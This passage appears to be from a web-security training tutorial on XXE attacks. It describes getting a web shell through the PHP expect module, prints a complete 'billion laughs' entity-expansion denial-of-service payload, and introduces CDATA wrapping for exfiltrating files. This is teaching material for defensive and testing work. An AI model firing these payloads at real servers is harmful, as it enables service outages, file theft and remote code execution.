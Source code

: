 **Note**: We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and \{ may break the code, so we should avoid using them.


Once we send the request, we should receive a request on our machine for the shell.php file, after which we can interact with the web shell on the remote server for code execution.

**Note**: The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.


# Other XXE attacks

Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

This payload defines the a0 entity as DOS, references it in a1 multiple times, references a1 in a2, and so on until the back-end server's memory runs out due to the self-reference loops. **However, this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference**.


# Advanced exfiltration with CDATA

In the previous section, we saw how we could use PHP filters to encode PHP source files, such that they would not break the XML format when referenced, which (as we saw) prevented us from reading these files. But what about other types of Web Applications? We can utilize another method to extract any kind of data (including binary data) for any web application backend. To output data that does not conform to the XML format, **we can wrap the content of the external file reference with a CDATA tag (e.g. <![CDATA[ FILE_CONTENT ]]>)**.
